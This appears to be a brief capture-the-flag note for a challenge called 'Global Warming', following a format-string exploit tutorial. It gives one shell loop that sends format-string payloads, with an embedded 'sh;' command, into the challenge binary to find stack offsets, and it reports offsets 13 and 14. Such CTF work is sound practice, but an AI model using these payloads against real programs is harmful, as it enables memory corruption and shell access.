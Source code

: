 # Global Warming

Following <https://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html>

```sh
for ((i=1;i<15;i++)); do echo $i; echo "sh;#AAAABBBB%00000x%${i}\$hp%00000x%$((i+1))\$hp" | ./global-warming; echo ;done
```

Offsets - `13 14`


